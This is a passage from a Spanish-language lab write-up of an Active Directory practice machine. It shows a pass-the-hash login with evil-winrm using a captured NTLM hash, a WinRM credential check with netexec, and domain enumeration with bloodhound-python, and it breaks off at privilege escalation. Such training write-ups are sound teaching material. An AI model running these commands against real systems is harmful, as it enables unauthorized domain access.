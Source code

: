 <span style="color:green;">L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808</span>

Probemos a conectarnos con `evil-winrm`.

```bash
evil-winrm -i 192.168.182.175 -u L.Livingstone -H "19a3a7550ce8c505c2d46b5e39d6f808"
```

Y estamos dentro!

<p align="center">
<img src="/assets/images/pg-writeup-resourced/Pasted image 20250225143012.png">
</p>

Recordad que los usuarios que se pueden conectar a través del protocolo `WINRM` es porque pertenecen al grupo RemoteManagementUsers. Esto se puede comprobar si tenemos credenciales válidas con el comando `netexec winrm <IP> -u usuario -p contraseña` o `netexec winrm <IP> -u usuario -H <hash>`. Y si nos pone un símbolo `[+]` y la palabra `(Pwn3d)` es que es válido y se puede conectar.

# Escalada de privilegios

Siempre que consigo conectarme a alguna máquina del `Directorio Activo`, enumero manualmente algunas cosas. Por ejemplo, lanzo un `whoami /priv`, enumero los históricos de `PowerShell` de los usuarios a los que tengo acceso, lanzo un `winpeas.exe` para ver cosas interesantes, pero en esta ocasión no he visto nada. Por tanto, voy a optar por lanzar un `BloodHound` para ver mis privilegios dentro del dominio.

Agrega esta línea al `/etc/hosts` para que resuelva al dominio

```
192.168.182.175     resourced.local
```

Enumeración con `bloodhound-python`:

```bash
bloodhound-python -u L.Livingstone -d resourced.local -ns 192.168.182.175 -c All --hashes "aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808"
```

He encontrado este privilegio en BloodHound para el usuario `L. Livingstone`.

<p align="center">